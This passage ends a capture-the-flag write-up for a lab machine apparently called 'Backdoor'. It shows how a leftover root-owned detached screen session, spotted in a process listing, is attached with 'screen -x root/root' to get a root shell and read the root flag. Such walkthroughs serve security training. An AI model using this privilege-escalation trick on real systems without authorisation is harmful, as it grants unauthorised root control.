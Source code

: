 The path to root is simple, but only if you paid attention earlier. When we scanned the processes running on the box remotely we saw this:

```text
/proc/814/cmdline/proc/814/cmdline/proc/814/cmdline/bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done 
```

This shows us that screen is running with a session detached called root. So it's pretty safe to assume we just need to attach to that screen to get our root shell.

[This](https://linux.die.net/man/1/screen) explains what screen is and the parameters it uses, these are the ones we can see are in use:

```text
-d -m Start screen in "detached" mode. This creates a new session but doesn't attach to it. This is useful for system startup scripts.
-S sessionname
```

So this is nice and simple:

```text
user@Backdoor:~$ /usr/bin/screen -x root/root
/usr/bin/screen -x root/root
Please set a terminal type.
```

Set terminal and then try again:

```text
user@Backdoor:~$ export TERM=xterm
export TERM=xterm
user@Backdoor:~$ /usr/bin/screen -x root/root
/usr/bin/screen -x root/root
root@Backdoor:~#
```

## Root Flag

And there we are, let's grab that root flag:

```sh
root@Backdoor:~# id
uid=0(root) gid=0(root) groups=0(root)

root@Backdoor:~# ls -l
-rw-r--r-- 1 root root 33 Dec  9 23:17 root.txt

root@Backdoor:~# cat root.txt
<HIDDEN>
```

All done. See you next time.
